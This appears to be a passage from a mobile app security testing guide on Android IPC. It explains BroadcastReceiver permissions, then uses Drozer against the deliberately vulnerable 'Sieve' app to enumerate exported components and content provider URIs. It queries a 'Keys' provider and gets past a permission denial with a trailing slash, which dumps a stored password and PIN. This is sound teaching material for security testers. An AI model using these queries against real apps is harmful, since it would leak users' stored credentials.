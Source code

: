 BroadcastReceivers should make use of the `android:permission` attribute, as otherwise any other application can invoke them. `Context.sendBroadcast(intent, receiverPermission);` can be used to specify permissions a receiver needs to be able to [read the broadcast](https://developer.android.com/reference/android/content/Context.html#sendBroadcast(android.content.Intent\ "SendBroadcast")). You can also set an explicit application package name that limits the components this Intent will resolve to. If left to the default value of null, all components in all applications will considered. If non-null, the Intent can only match the components in the given application package.


#### Dynamic Analysis



IPC components can be enumerated using Drozer. To list all exported IPC components, the module `app.package.attacksurface` should be used:

```
dz> run app.package.attacksurface com.mwr.example.sieve
Attack Surface:
  3 activities exported
  0 broadcast receivers exported
  2 content providers exported
  2 services exported
    is debuggable
```

##### Content Providers

The "Sieve" application implements a vulnerable content provider. To list of content providers exported by the Sieve app execute the following command:

```
dz> run app.provider.finduri com.mwr.example.sieve
Scanning com.mwr.example.sieve...
content://com.mwr.example.sieve.DBContentProvider/
content://com.mwr.example.sieve.FileBackupProvider/
content://com.mwr.example.sieve.DBContentProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords/
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.FileBackupProvider
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Keys
```

Content providers with names like "Passwords" and "Keys" are prime suspects for sensitive information leaks. After all, it wouldn't be great if sensitive keys and passwords could simply be queried from the provider!

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys
Permission Denial: reading com.mwr.example.sieve.DBContentProvider uri content://com.mwr.example.sieve.DBContentProvider/Keys from pid=4268, uid=10054 requires com.mwr.example.sieve.READ_KEYS, or grantUriPermission()
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Keys/
| Password          | pin  |
| SuperPassword1234 | 1234 |
```
